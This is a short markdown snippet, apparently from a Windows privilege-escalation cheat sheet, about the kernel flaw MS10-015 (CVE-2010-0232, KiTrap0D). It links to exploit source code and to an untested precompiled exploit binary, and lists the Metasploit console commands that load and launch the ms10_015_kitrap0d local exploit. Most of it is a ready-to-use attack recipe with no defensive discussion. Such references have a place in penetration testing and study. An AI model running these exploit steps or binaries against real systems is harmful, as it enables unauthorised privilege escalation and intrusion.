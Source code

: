 https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-015

CVE-2010-0232

### Binary

Not tested https://github.com/Re4son/KiTrapOD/raw/master/vdmallowed.exe

### Metasploit

```
msf > use exploit/windows/local/ms10_015_kitrap0d
msf exploit(ms10_015_kitrap0d) > show targets
    ...targets...
msf exploit(ms10_015_kitrap0d) > set TARGET <target-id>
msf exploit(ms10_015_kitrap0d) > show options
    ...show and set options...
msf exploit(ms10_015_kitrap0d) > exploit
    
    
```
